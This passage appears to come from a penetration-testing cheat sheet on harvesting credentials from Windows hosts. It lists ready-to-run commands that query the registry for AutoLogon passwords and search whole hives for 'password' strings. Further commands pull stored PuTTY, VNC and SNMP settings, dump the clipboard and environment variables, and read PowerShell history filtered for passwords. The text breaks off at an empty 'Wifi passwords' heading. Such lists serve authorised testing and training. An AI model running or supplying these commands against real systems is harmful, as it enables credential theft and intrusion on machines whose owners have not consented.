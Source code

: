 

### Registry
#### Check stored passwords for AutoLogon
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

#### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f passwd /t REG_SZ /s
reg query HKU /f password /t REG_SZ /s
reg query HKU /f passwd /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query HKCU /f passwd /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Misc
#### What is inside the Clipboard?
```
powershell -command "Get-Clipboard"
```

#### Check for credentials in environment variables:
```
set
```

#### Powershell history

```powershell
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
#### Wifi passwords

